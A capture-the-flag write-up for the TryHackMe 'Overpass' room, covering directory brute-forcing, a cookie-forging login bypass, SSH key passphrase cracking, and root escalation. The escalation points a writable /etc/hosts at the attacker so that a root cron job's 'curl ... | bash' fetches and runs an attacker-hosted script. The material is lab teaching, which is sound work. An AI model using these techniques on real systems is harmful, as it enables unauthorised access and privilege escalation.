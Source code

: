 # Overpass WriteUp https://tryhackme.com/room/overpass

## 1.Scanning with nmap for open ports and services

![](1)
* * * 
we see that port 80 is open

![](2)

we go to the downloads page and find the source code to the password manager, which is written in Go and a build script

![](3)

I couldn't find anything useful in it, so we'll leave it for now

## 2.Brute forcing directories

We're gonna find some directories with [dirsearch](https://github.com/maurosoria/dirsearch)

`python3 dirsearch.py -u http://10.10.210.84/ -e html,js,php`

![](4.png)

we navigate to `/admin/?/login`

![](5.png)

trying to log in with weak credentials, such as `admin:admin`, failed

![](6.png)

after some messing around, I finally notice some stuff in `login.js`

![](7.png)

there is a function for data encoding and making the POST request, but the one we're interested in is this:

```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}

```

especially these last few lines:
```js
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```

so, when we try to log in with wrong credentials,the response we get is `"Incorrect credentials"`, so nothing happens  
but if we get the right credentials, it sets the `SessionToken` cookie to the value `statusOrCookie` and points us to `/admin`  

What is we try to manually set the cookie to some status value?  
```js
Cookies.set("SessionToken",400)
```
With the cookie set, we navigate to the `/admin` page  
![](8.png)

and as you can see, we get a RSA private key

## 3. SSHing into the machine

We save the key to `id_rsa`, now it's time to find the passphrase  
First, we use `ssh2john.py`, which you can download from github to generate the hash, and we save it to `id_rsa.hashes`  

![](9.png)

Then we use john for cracking the passphrase  

![](10.png)

We login using the key as `james`  
![](11.png)

Then we get the flag
![](12.png)

* * * 
## 3.Escalating our privileges

First thing we notice is a `todo.txt` with the following content.  
```
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

We get some interesting information from this:  
* There is some kind of password in the password manager they wrote
* The encryption is weak
* There is some kind of automated build script running

Ok, remember the source code we got from the first step? There is some interesting stuff in it:  
```go
func main() {
	credsPath, err := homedir.Expand("~/.overpass")
	if err != nil {
		fmt.Println("Error finding home path:", err.Error())
	}
	//Load credentials
    passlist, status := loadCredsFromFile(credsPath)
    ...
```
The credentials are stored in `~/.overpass`  

![](13.png)

There is another interesting function in the source code: 
```go
func rot47(input string) string {
	var result []string
	for i := range input[:len(input)] {
		j := int(input[i])
		if (j >= 33) && (j <= 126) {
			result = append(result, string(rune(33+((j+14)%94))))
		} else {
			result = append(result, string(input[i]))
		}
	}
	return strings.Join(result, "")
}
```  
So it seems they use `ROT47`, we use [CyberChef](https://gchq.github.io/CyberChef/) to decrypt it  
![](14.png)
* * *
Moving on, we try to find the automate build script, so we look in `/etc` for cron jobs and we find one: 

![](15.png)

It seems like is runs the same script we found on the `/downloads` page as **root**.  
It also runs every minute.  
```bash
GOOS=linux /usr/local/go/bin/go build -o ~/builds/overpassLinux ~/src/overpass.go
GOOS=windows /usr/local/go/bin/go build -o ~/builds/overpassWindows.exe ~/src/overpass.go
GOOS=darwin /usr/local/go/bin/go build -o ~/builds/overpassMacOS ~/src/overpass.go
GOOS=freebsd /usr/local/go/bin/go build -o ~/builds/overpassFreeBSD ~/src/overpass.go
GOOS=openbsd /usr/local/go/bin/go build -o ~/builds/overpassOpenBSD ~/src/overpass.go
echo "$(date -R) Builds completed" >> /root/buildStatus
```

Notice in the cron job that is makes a get request with **curl** to `overpass.thm/downloads/src/buildscript.sh`

* * * 

Let's check the `/etc/hosts` file  

![](16.png)

Nice! It seems that we have write permission  
Let's change the ip of `overpass.thm` to our VPN ip
(you can find it using `ip a`, or from the acces page on tryhackme)  

We open `/etc/hosts` using **vim** and we write out ip address
![](17.png)

* * *

Alright, since the cron job requests from `curl overpass.thm/downloads/src/buildscript.sh | bash` we have to make directory and write our build script with the following content:
```bash
cat /root/root.txt > /home/james/stuff.txt
```

![](18.png)

Starting our simple web server:

![](19.png)

And we get the flag  

![](20.png)